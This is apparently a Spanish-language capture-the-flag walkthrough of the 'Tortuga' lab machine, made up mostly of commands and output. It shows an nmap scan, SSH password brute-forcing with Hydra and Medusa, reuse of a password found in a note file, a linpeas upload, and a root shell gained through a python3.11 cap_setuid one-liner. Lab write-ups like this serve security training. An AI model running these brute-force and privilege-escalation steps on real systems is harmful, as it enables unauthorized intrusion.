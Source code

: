 nmap -p22,80 -sV -sC -Pn -vvv -n 192.168.56.108 -oN fullScan.txt


----------------------------



hydra -l grumete -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.56.108

medusa -h 192.168.56.108 -u grumete -P /usr/share/wordlists/rockyou.txt -M ssh


└─$ hydra -l grumete -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.56.108
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-07 19:48:30
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.56.108:22/

[22][ssh] host: 192.168.56.108   login: grumete   password: 1234

1 of 1 target successfully completed, 1 valid password found




grumete:1234
-------------------------------------

┌──(kali㉿kali)-[~/Documents/tortuga]
└─$ ssh grumete@192.168.56.108                 
grumete@192.168.56.108's password: 
Linux TheHackersLabs-Tortuga 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  7 23:48:37 2025 from 192.168.56.103
grumete@TheHackersLabs-Tortuga:~$ ls -la
total 28
drwxr-xr-x 2 grumete grumete 4096 sep  5 13:23 .
drwxr-xr-x 4 root    root    4096 sep  5 11:49 ..
lrwxrwxrwx 1 grumete grumete    9 sep  5 11:59 .bash_history -> /dev/null
-rw-r--r-- 1 grumete grumete  220 abr 23  2023 .bash_logout
-rw-r--r-- 1 grumete grumete 3564 sep  5 11:48 .bashrc
-rw-r--r-- 1 root    root     791 sep  5 13:23 .nota.txt
-rw-r--r-- 1 grumete grumete  807 abr 23  2023 .profile
-r-------- 1 grumete grumete   33 sep  5 11:55 user.txt
grumete@TheHackersLabs-Tortuga:~$ cat user.txt 
26411abdb6301c1d28617bd5ac7ec81b
grumete@TheHackersLabs-Tortuga:~$ cat .nota.txt 
Querido grumete,

Parto rumbo a la isla vecina por asuntos que no pueden esperar, estaré fuera un par de días. 
Mientras tanto, confío en ti para que cuides del barco y de la tripulación como si fueran míos. 

La puerta de la cámara del timón está asegurada con la contraseña: 
    "mar_de_fuego123"  

Recuerda, no se la reveles a nadie más. Has demostrado ser leal y firme durante todos estos años 
navegando juntos, y eres en quien más confío en estos mares traicioneros.

Mantén la guardia alta, vigila las provisiones y cuida de que ningún intruso ponga un pie en cubierta.  
Cuando regrese, espero encontrar el barco tal y como lo dejo hoy (¡y nada de usar la bodega de ron 
para hacer carreras de tortugas otra vez!).  

Con la confianza de siempre,  
— El Capitán
grumete@TheHackersLabs-Tortuga:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:108:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
capitan:x:1001:1001::/home/capitan:/bin/bash
grumete:x:1002:1002::/home/grumete:/bin/bash
grumete@TheHackersLabs-Tortuga:~$ su capitan 
Contraseña: 
capitan@TheHackersLabs-Tortuga:/home/grumete$ 



-----------------

Opción 1: Si quieres ejecutar linpeas.sh en la máquina remota (192.168.56.108)
Como ya tienes linpeas.sh localmente, puedes subirlo a la máquina remota:


scp linpeas.sh capitan@192.168.56.108:/tmp/linpeas.sh


ssh capitan@192.168.56.108

chmod +x /tmp/linpeas.sh

cd /tmp && ./linpeas.sh





Files with capabilities (limited to 50):
/usr/bin/ping cap_net_raw=ep
/usr/bin/python3.11 cap_setuid=ep



-------------------



¡El binario crítico es: /usr/bin/python3.11 cap_setuid=ep**
Python 3.11 tiene la capacidad de cambiar su UID (como si fuera sudo). Esto significa que puedes usarlo para ejecutar comandos como otro usuario (¡incluyendo root!).

💥 Explotación directa:
Opción 1: Obtener una shell como root
Ejecuta:

bash
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
Esto cambiará el UID a 0 (root) y lanzará una shell.

Opción 2: Ejecutar cualquier comando como root
bash
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("whoami")'




Por qué funciona?
cap_setuid=ep le da a Python la capacidad de usar setuid() para cambiar al usuario que quieras (incluyendo root).

Normalmente solo root puede usar setuid(0), pero Python tiene este privilegio gracias a la capability.



/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'



oot@TheHackersLabs-Tortuga:/home/grumete# ls
user.txt


root@TheHackersLabs-Tortuga:/# cd root/
root@TheHackersLabs-Tortuga:/root# ls
root.txt

root@TheHackersLabs-Tortuga:/root# cat root.txt 
c3f63456632bd27e1d5602827c2b59ae

